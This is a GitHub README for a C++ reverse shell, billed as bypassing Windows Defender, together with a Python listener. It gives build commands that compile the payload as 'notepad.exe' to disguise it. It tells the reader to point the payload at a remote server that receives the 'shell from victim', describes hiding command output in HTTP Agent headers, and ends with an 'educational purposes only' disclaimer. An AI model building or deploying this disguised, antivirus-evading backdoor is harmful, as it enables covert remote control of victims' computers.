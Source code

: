 # Interative ReverseShell bypass Microsoft Window Defender

A simple ReverseShell written in C++, and listening server written in Python

## I. Installation

- ***Mingw***:
    *note that I try to use Microsoft Visual Studio to build exe but I got a lot of errors with lib and header file, you can use MVS if you want, or install Mingw like me*

```bash
sudo apt-get update
sudo apt-get install mingw-w64 -y
```
## II. Usage
### 1. Build virus
***Note:*** *Inspect source in virus.cpp and change sourceip and port to your remote server that hosts server.py (receive shell from victim) then build it using mingw*
```bash
x86_64-w64-mingw32-g++ -o notepad.exe virus.cpp  -static-libgcc -static-libstdc++ -lwininet
```

### 2. Run listening server
***Note:*** *This server.py will listen incomming GET request, extract Agent header and decode to human readable data (result returns from command)*
```python
python3 server.py
```

Run notepad.exe connection will be established to remote server, run any command.

**Server**:

![plot](./images/serverpy.png)

**Client**

![plot](./images/viruscpp.png)

> [!CAUTION]
> There is no clean code, no penetration test provided, this repo is for educational purposes only. Do not use for illegal purposes. I'm never responsible for illegal use. Educational purpose only!
## Support me (optional)
If you find it useful, you can support me with a cup of coffee.
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2123O0D)
